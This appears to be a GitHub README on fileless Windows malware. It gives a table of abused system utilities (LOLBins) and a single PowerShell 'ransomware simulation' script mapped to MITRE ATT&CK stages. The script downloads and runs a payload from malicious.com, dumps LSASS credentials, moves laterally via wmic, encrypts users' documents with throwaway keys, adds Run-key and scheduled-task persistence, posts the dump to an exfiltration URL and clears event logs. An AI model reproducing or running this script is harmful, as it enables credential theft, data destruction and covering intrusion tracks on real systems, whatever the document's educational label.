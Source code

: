 
# NSFW - Fileless Malware

![bsod](https://github.com/user-attachments/assets/28d25a60-2ecf-44a3-bdbc-d55bbb3757d0)

## LOLBins 101: Living off the Land Binaries & Scripts

**LOLBins** are legitimate Windows utilities repurposed by attackers to execute payloads, evade detection, and persist. Because they're trusted system tools, they offer stealth and flexibility for malware operations.
## Common LOLBins and Use Cases

| LOLBin | Abuse | Tactics |
|--------|-------|---------|
| `rundll32.exe` | Execute DLLs | Code exec, EDR bypass |
| `mshta.exe` | Run HTA payloads | Script exec, sandbox evasion |
| `regsvr32.exe` | Load COM DLLs | Fileless exec, C2 proxy |
| `wmic.exe` | WMI command exec | Proc launch, lateral move |
| `cmd.exe / powershell.exe` | Script runners | Payloads, persistence |
| `msbuild.exe` | Inline C# compile/exec | Fileless malware |
| `certutil.exe` | Download/decode files | Exfil, LOLBin abuse |
| `bitsadmin.exe` | Fetch remote files | Delivery, persistence |
| `schtasks.exe` | Schedule task | Priv escalation, persistence |
| `esentutl.exe` | Copy/exec files | Exfil, stealth ops |

---

## Theoretical Example of '100% Fileless' Ransomware Using the MITRE ATT&CK Framework

```powershell
# Advanced Ransomware Simulation Workflow - Single Execution PowerShell Script
# Educational & Research Purposes Only (Controlled Lab Environment)
# MITRE ATT&CK Mapped per Stage

# 1️⃣ Initial Access (T1190 - Exploit Public-Facing Application)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# 2️⃣ Execution (T1059.001 - Command and Scripting Interpreter: PowerShell)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 3️⃣ Privilege Escalation (T1548 - Abuse Elevation Control Mechanism)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 4️⃣ Credential Access (T1003.001 - LSASS Dumping)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 5️⃣ Discovery (T1082 - System Information Discovery)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select-Object Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select-Object Name, MacAddress, Status
Write-Output $sysInfo
Write-Output $networkInfo

# 6️⃣ Lateral Movement (T1021.001 - Remote Desktop Protocol)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 7️⃣ Impact - Advanced Encryption (T1486 - Data Encrypted for Impact)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 8️⃣ Persistence (T1547.001 - Registry Run Key & Scheduled Task)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" -PropertyType String
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 9️⃣ Exfiltration (T1041 - Exfiltration Over C2 & Encrypted Channels)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 1️⃣0️⃣ Defense Evasion & Cleanup (T1070 - Indicator Removal, Log Clearing, Process Masquerading)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System
wevtutil cl Security
wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

## Additional Resources
- [PrintNightmare Guide](https://itm4n.github.io/printnightmare-not-over/)
- [PrintNightmare](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-elevation-of-privilege-vulnerability-eop-the-printnightmare-of-2021/)
- [LOLOL Farm](https://lolol.farm/)
- [ATT&CK MITRE](https://attack.mitre.org/software/S0697/)
- [LOLGEN](https://lolgen.hdks.org/)
- [Fileless Malware](https://en.wikipedia.org/wiki/Fileless_malware)
- [Dll injection](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- [Print drivers](https://github.com/jacob-baines/concealed_position)



